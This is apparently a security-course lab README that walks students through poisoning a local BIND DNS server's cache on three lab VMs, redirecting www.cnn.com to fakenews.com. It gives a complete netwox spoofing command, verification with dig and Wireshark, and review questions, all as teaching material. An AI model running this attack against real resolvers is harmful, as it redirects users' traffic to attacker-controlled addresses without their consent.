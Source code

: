 ## Local DNS Cache Poisoning Attack

### Requirement

In this lab, you will poison the cache of a local DNS server, and thus affect clients who rely on this DNS server. More specifically, we want clients who access www.cnn.com go to fakenews.com.

### Setup

3 Linux VMs: Victim (DNS) Client, Victim (DNS) Server, Attacker.

The following is the IP addresses and MAC addresses for the VMs used in this README.

| VM  |  IP Address   |        Role         |
|-----|---------------|---------------------|
| VM1 | 172.16.77.128 | victim (dns) client |
| VM2 | 172.16.77.129 | victim (dns) server |
| VM3 | 172.16.77.130 |   attacker          |

### Steps

1. On DNS Server machine: start the DNS Server. We will use BIND software. (BIND: Berkeley Internet Name Domain) 

```console
# sudo service bind9 start (If it's already running, then # sudo service bind9 restart)
```

2. On DNS Server: remove existing cache:

```console
# sudo rndc flush
```

this screenshot shows the commands to start the server and flush the cache.

![alt text](lab-dns-start-server.png "start server and flush cache")

3. On Victim Client, configure DNS server information, i.e., let the client know the IP address of the DNS server.

3.1. add this line to the end of file /etc/resolvconf/resolv.conf.d/head (remember to replace DNS_SERVER_IP with your Victim DNS server's IP address, plus, you need "sudo" if you edit the file using vi/vim.)

```console
nameserver DNS_SERVER_IP
```

![alt text](lab-dns-edit-file.png "edit the file")

![alt text](lab-dns-configure-dns.png "configure dns")

3.2. run the following command so the above change will take effect:

```console
# sudo resolvconf -u
```

![alt text](lab-dns-resolvconf.png "resolvconf command")

4. On Attacker VM, run

```console
# sudo netwox 105 --hostname "www.cnn.com" --hostnameip FAKENEWS.com_IP --authns "ns1.fastly.net" --authnsip ATTACKER_IP --filter "src host DNS_SERVER_IP" --ttl 19000 --spoofip raw
```

FAKENEWS.com IP address (as of today, 05/24/2022): 188.126.71.216 (you can use ping command to confirm it)

Explanation: '--spoofip raw' means to spoof at IP4/IP6 level, as opposed to spoof at the data link layer. In other words, spoof IP addresses, instead of spoof MAC addresses.

this screenshot shows the actual command:

![alt text](lab-dns-attack-command.png "attack command")

Question: why it's "src host DNS_SERVER_IP", instead of "src host DNS_CLIENT_IP"?

Question: does the ttl here have the same meaning as the ttl in IP headers?

5. on Victim Client, send a query.

```console
# dig www.cnn.com 
```

![alt text](lab-arp-attack-success.png "attack success")

Note: if your dig command shows www.cnn.com is mapped to 188.126.71.216, then it means the attack is successful; if it's not mapped to this IP address, it means you're not on the right track.

6. Stop the attack - press control-c on the Attacker VM's terminal. On Victim Client, open wireshark and repeat step 5 (i.e. run the dig command again), from the packets captured in wireshark, confirm the attack is still successful, and the forged response is indeed from the Victim DNS server.

![alt text](lab-arp-attack-success-after-ctrl-c.png "attack still success")

7. You are recommended to remove the line you added in step 3, in this file: /etc/resolvconf/resolv.conf.d/head, so that your future experiments won't be affected.
